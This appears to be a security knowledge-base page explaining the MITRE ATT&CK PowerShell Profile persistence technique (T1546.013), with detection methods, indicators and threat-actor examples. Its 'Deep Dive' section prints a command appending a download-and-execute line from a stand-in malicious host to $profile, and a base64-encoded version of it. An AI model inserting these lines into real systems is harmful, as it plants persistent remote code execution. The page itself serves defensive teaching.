 ```yaml
---
description: PowerShell Profile [T1546.013]
icon: file
---
```


# PowerShell Profile [T1546.013]

## Information

- Name: PowerShell Profile
- ID: T1546.013
- Tactics: [TA0004](../TA0004/TA0004.md), [TA0003](../TA0003/TA0003.md)
- Technique: [T1546](./T1546.md)

## Introduction

The PowerShell Profile sub-technique (T1546.013) in the MITRE ATT&CK framework involves adversaries modifying or creating malicious PowerShell profiles to execute unauthorized commands or scripts automatically upon the launch of PowerShell. PowerShell profiles are scripts that run each time a PowerShell session starts, allowing users to customize their environment. Attackers exploit this functionality by embedding malicious commands or scripts within these profiles to achieve persistence, execute payloads, or maintain access to compromised systems without user interaction.

## Deep Dive Into Technique

PowerShell profiles are scripts that are executed automatically whenever a new PowerShell session is initiated. These profiles can exist in multiple locations, including:

- System-wide profiles:

  - `%windir%\System32\WindowsPowerShell\v1.0\profile.ps1`
  - `%windir%\SysWOW64\WindowsPowerShell\v1.0\profile.ps1`

- User-specific profiles:
  - `%UserProfile%\Documents\WindowsPowerShell\profile.ps1`
  - `%UserProfile%\Documents\PowerShell\profile.ps1`

Attackers leverage these profiles by modifying existing scripts or creating new ones to execute malicious commands or payloads automatically. Common malicious actions include:

- Executing reverse shells or remote access trojans (RATs) upon PowerShell startup.
- Downloading and executing additional payloads from remote servers.
- Maintaining persistence by ensuring execution every time PowerShell is launched.
- Performing reconnaissance or data exfiltration silently in the background.

Attackers typically achieve this by:

1. Modifying or creating the profile script directly through command-line or scripting methods:

   ```powershell
   echo "Invoke-WebRequest -Uri 'http://malicious.example.com/payload.ps1' | Invoke-Expression" >> $profile
   ```

2. Obfuscating malicious commands within the profile script to evade detection:

   ```powershell
   $encodedCommand = 'cG93ZXJzaGVsbCAtbm9wcm9maWxlIC1jb21tYW5kICJJbnZva2UtV2ViUmVxdWVzdCAtVVJJIGh0dHA6Ly9tYWxpY2lvdXMuZXhhbXBsZS5jb20vcGF5bG9hZC5wc2wgfCBJbnZva2UtRXhwcmVzc2lvbiIK'
   powershell -EncodedCommand $encodedCommand
   ```

3. Utilizing administrative privileges to place malicious scripts into system-wide profiles, affecting all users on the system.

## When this Technique is Usually Used

Attackers typically utilize the PowerShell Profile persistence method during the following attack scenarios and stages:

- **Persistence Stage**: After initial compromise, attackers embed malicious commands into PowerShell profiles to ensure continued access across system reboots and user logins.
- **Privilege Escalation**: If attackers gain administrative privileges, they may modify system-wide profiles, affecting all users and potentially escalating privileges further.
- **Execution Stage**: Malicious commands embedded in profiles often download and execute secondary payloads, facilitating lateral movement or data exfiltration.
- **Defense Evasion**: Attackers leverage PowerShell profiles to execute commands without directly invoking suspicious scripts or binaries, thus evading traditional detection mechanisms.

## How this Technique is Usually Detected

Detection methods for malicious PowerShell profile modifications include:

- **File Integrity Monitoring (FIM)**:

  - Monitoring profile scripts for unauthorized changes or creations.
  - Detecting unexpected modifications to `%UserProfile%\Documents\WindowsPowerShell\profile.ps1` or system-wide profile locations.

- **Endpoint Detection and Response (EDR) Solutions**:

  - Monitoring PowerShell process creation events and associated script executions.
  - Alerting on suspicious PowerShell profile modifications or unusual execution patterns.

- **PowerShell Logging and Auditing**:

  - Enabling script block logging (`Event ID 4104`) to capture executed commands.
  - Enabling module logging (`Event ID 4103`) to log module and script invocations.
  - Monitoring Windows Event Logs for suspicious PowerShell activity.

- **Behavioral Analysis**:
  - Detecting anomalous PowerShell activity, such as connections to external IP addresses or domains immediately after PowerShell startup.
  - Identifying unusual parent-child process relationships involving PowerShell.

Indicators of Compromise (IoCs) include:

- Unexpected presence or modification of:
  - `%UserProfile%\Documents\WindowsPowerShell\profile.ps1`
  - `%windir%\System32\WindowsPowerShell\v1.0\profile.ps1`
- Suspicious encoded commands or obfuscated scripts within profile scripts.
- Unusual network connections initiated by PowerShell processes immediately upon launch.

## Why it is Important to Detect This Technique

Early detection of malicious PowerShell profile modifications is critical due to the following impacts:

- **Persistence and Long-Term Access**:

  - Attackers leverage PowerShell profiles to maintain persistent access, potentially remaining undetected for extended periods.

- **Privilege Escalation**:

  - Malicious modifications to system-wide profiles can impact all users, facilitating privilege escalation and lateral movement.

- **Data Exfiltration and Espionage**:

  - Automated execution of malicious scripts enables attackers to silently exfiltrate sensitive data, intellectual property, or credentials.

- **Defense Evasion**:

  - PowerShell profile-based persistence methods often bypass traditional antivirus and signature-based detection systems, making them challenging to detect.

- **Operational Impact**:
  - Undetected malicious activities can lead to significant operational disruptions, data breaches, reputational damage, and regulatory compliance violations.

Therefore, promptly detecting and responding to unauthorized PowerShell profile modifications is essential to minimize potential damage and maintain the security posture of the organization.

## Examples

Real-world examples and scenarios involving malicious PowerShell profile usage include:

- **APT33 (Elfin)**:

  - Iranian threat actor known to leverage malicious PowerShell profiles for persistence.
  - Used PowerShell profiles to execute payloads that communicated with remote command-and-control (C2) servers, facilitating espionage activities.

- **Empire Framework**:

  - Popular post-exploitation framework that includes built-in modules for establishing persistence via PowerShell profiles.
  - Attackers using Empire often insert malicious commands into profiles to automatically reconnect compromised hosts to attacker-controlled infrastructure.

- **FIN7 Group**:

  - Cybercriminal group known for financial attacks targeting retail and hospitality sectors.
  - Utilized malicious PowerShell profiles to maintain persistence and execute payloads silently in victim environments, enabling lateral movement and data theft.

- **Real-World Attack Scenario**:
  1. An attacker gains initial access via phishing email containing a malicious attachment.
  2. Upon execution, the attacker modifies the user's PowerShell profile (`profile.ps1`) to include a command that downloads and executes a remote payload upon every PowerShell session start.
  3. Each time the victim opens PowerShell, the malicious payload executes silently, establishing persistent access and enabling further malicious actions such as data exfiltration or lateral movement.

These real-world examples demonstrate the practical application and potential impact of malicious PowerShell profile modifications, underscoring the importance of proactive detection and response strategies.
